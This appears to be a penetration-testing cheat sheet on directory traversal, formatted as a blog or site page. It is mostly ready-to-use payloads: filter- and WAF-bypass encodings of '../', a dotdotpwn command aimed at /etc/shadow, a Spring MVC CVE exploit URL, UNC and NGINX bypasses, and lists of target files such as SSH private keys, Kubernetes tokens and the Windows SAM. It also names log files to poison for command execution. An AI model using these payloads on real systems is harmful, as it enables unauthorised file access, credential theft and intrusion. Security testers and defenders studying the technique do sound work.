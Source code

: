 +++
title = "Directory Traversal"
datee = 2022-10-16 01:39:00
description = "All about directory traversal techniques, methods, payloads, how/why/when they work."
+++

# Directory traversal

> A directory or path traversal consists in exploiting insufficient security validation / sanitization of user-supplied input file names, so that characters representing "traverse to parent directory" are passed through to the file APIs.


## Tools

- [dotdotpwn - https://github.com/wireghoul/dotdotpwn](https://github.com/wireghoul/dotdotpwn)
    ```bash
    git clone https://github.com/wireghoul/dotdotpwn
    perl dotdotpwn.pl -h 10.10.10.10 -m ftp -t 300 -f /etc/shadow -s -q -b
    ```

## Basic exploitation

We can use the `..` characters to access the parent directory, the following strings are several encoding that can help you bypass a poorly implemented filter.

```powershell
../
..\
..\/
%2e%2e%2f
%252e%252e%252f
%c0%ae%c0%ae%c0%af
%uff0e%uff0e%u2215
%uff0e%uff0e%u2216
```

### 16 bits Unicode encoding

```powershell
. = %u002e
/ = %u2215
\ = %u2216
```

### UTF-8 Unicode encoding

```powershell
. = %c0%2e, %e0%40%ae, %c0ae
/ = %c0%af, %e0%80%af, %c0%2f
\ = %c0%5c, %c0%80%5c
```

### Bypass "../" replaced by ""
Sometimes you encounter a WAF which remove the "../" characters from the strings, just duplicate them.

```powershell
..././
...\.\
```

### Bypass "../" with ";"

```powershell
..;/
http://domain.tld/page.jsp?include=..;/..;/sensitive.txt 
```

### Double URL encoding

```powershell
. = %252e
/ = %252f
\ = %255c
```

**e.g:** Spring MVC Directory Traversal Vulnerability (CVE-2018-1271) with `http://localhost:8080/spring-mvc-showcase/resources/%255c%255c..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/windows/win.ini`

### UNC Bypass

An attacker can inject a Windows UNC share ('\\UNC\share\name') into a software system to potentially redirect access to an unintended location or arbitrary file.

```powershell
\\localhost\c$\windows\win.ini
```

### NGINX/ALB Bypass

NGINX in certain configurations and ALB can block traversal attacks in the route, For example:
```http://nginx-server/../../``` will return a 400 bad request.

To bypass this behaviour just add forward slashes in front of the url:
```http://nginx-server////////../../```


### Java Bypass

Bypass Java's URL protocol

```powershell
url:file:///etc/passwd
url:http://127.0.0.1:8080
```


## Path Traversal

### Interesting Linux files

```powershell
/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
/proc/self/environ
/proc/version
/proc/cmdline
/proc/sched_debug
/proc/mounts
/proc/net/arp
/proc/net/route
/proc/net/tcp
/proc/net/udp
/proc/self/cwd/index.php
/proc/self/cwd/main.py
/home/$USER/.bash_history
/home/$USER/.ssh/id_rsa
/run/secrets/kubernetes.io/serviceaccount/token
/run/secrets/kubernetes.io/serviceaccount/namespace
/run/secrets/kubernetes.io/serviceaccount/certificate
/var/run/secrets/kubernetes.io/serviceaccount
/var/lib/mlocate/mlocate.db
/var/lib/mlocate.db
```

### Interesting Windows files

Always existing file in recent Windows machine. 
Ideal to test path traversal but nothing much interesting inside...

```powershell
c:\windows\system32\license.rtf
c:\windows\system32\eula.txt
```

Interesting files to check out (Extracted from https://github.com/soffensive/windowsblindread)

```powershell
c:/boot.ini
c:/inetpub/logs/logfiles
c:/inetpub/wwwroot/global.asa
c:/inetpub/wwwroot/index.asp
c:/inetpub/wwwroot/web.config
c:/sysprep.inf
c:/sysprep.xml
c:/sysprep/sysprep.inf
c:/sysprep/sysprep.xml
c:/system32/inetsrv/metabase.xml
c:/sysprep.inf
c:/sysprep.xml
c:/sysprep/sysprep.inf
c:/sysprep/sysprep.xml
c:/system volume information/wpsettings.dat
c:/system32/inetsrv/metabase.xml
c:/unattend.txt
c:/unattend.xml
c:/unattended.txt
c:/unattended.xml
c:/windows/repair/sam
c:/windows/repair/system
```

The following log files are controllable and can be included with an evil payload to achieve a command execution

```powershell
/var/log/apache/access.log
/var/log/apache/error.log
/var/log/httpd/error_log
/usr/local/apache/log/error_log
/usr/local/apache2/log/error_log
/var/log/nginx/access.log
/var/log/nginx/error.log
/var/log/vsftpd.log
/var/log/sshd.log
/var/log/mail
```

## References

* [Path Traversal Cheat Sheet: Windows](https://gracefulsecurity.com/path-traversal-cheat-sheet-windows/)
* [Directory traversal attack - Wikipedia](https://en.wikipedia.org/wiki/Directory_traversal_attack)
* [CWE-40: Path Traversal: '\\UNC\share\name\' (Windows UNC Share) - CWE Mitre - December 27, 2018](https://cwe.mitre.org/data/definitions/40.html)
* [NGINX may be protecting your applications from traversal attacks without you even knowing](https://medium.com/appsflyer/nginx-may-be-protecting-your-applications-from-traversal-attacks-without-you-even-knowing-b08f882fd43d?source=friends_link&sk=e9ddbadd61576f941be97e111e953381)
* [Directory traversal - Portswigger](https://portswigger.net/web-security/file-path-traversal)
